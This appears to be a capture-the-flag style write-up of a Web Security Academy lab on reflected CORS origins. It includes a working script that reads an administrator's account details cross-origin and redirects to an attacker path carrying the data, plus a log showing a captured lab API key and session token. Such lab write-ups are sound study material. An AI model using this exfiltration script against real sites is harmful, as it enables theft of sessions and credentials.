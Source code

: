Tesing with Origin header, the origin is reflected in the **Access-Control-Allow-Origin** header. 
```
Origin: nglong05.com
```
```
Access-Control-Allow-Origin: nglong05.com
```
CORS script:
```html
<script>
const req = new XMLHttpRequest()

req.open('get', 'https://0a67009a0332ecba814c0e6000840076.web-security-academy.net/accountDetails', true)

req.onload = () => {window.location.href = '/nglong05?key=' + req.responseText}

req.withCredentials = true
req.send()
</script>
```
Log:
```
"GET /nglong05?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22VxJDMaVpi7mUFbqT5EgNNzprnAZFXY76%22,%20%20%22sessions%22:%20[%20%20%20%20%22uFwrldtV8mK8sjMrFlQaOecey2B58Gvl%22%20%20]} HTTP/1.1" 404 "user-agent: Chrome/811895"
```
Which contain the administrator session
```json
{"username": "administrator",  "email": "",  "apikey": "VxJDMaVpi7mUFbqT5EgNNzprnAZFXY76",  "sessions": [    "uFwrldtV8mK8sjMrFlQaOecey2B58Gvl"  ]}
```
## Server-generated ACAO header from client-specified Origin header

Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.

One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```
It then responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```
These headers state that access is allowed from the requesting domain (malicious-website.com) and that the cross-origin requests can include cookies (**Access-Control-Allow-Credentials: true**) and so will be processed in-session.
